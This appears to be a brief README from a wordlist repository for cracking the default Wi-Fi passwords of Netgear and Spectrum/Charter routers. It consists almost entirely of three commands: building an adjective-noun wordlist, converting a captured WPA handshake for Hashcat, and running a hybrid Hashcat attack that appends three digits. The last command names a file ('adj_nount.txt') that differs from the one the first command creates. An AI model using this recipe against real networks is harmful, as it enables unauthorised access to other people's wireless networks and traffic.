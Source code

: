 # NetgearXX / MyCharterWifiXX / MySpectrumWifiXX / SpectrumSetup-XX / SpectrumwifiXXXX

### dicts/netgear-spectrum

```combinator.exe adjective.txt noun.txt >> adj_noun.txt```

```cap2hccapx.exe WPAhandshake.pcap WPAhandshake.hccapx```

```Hashcat64.exe -m 2500 -a 6 WPAhandshake.hccapx adj_nount.txt ?d?d?d```
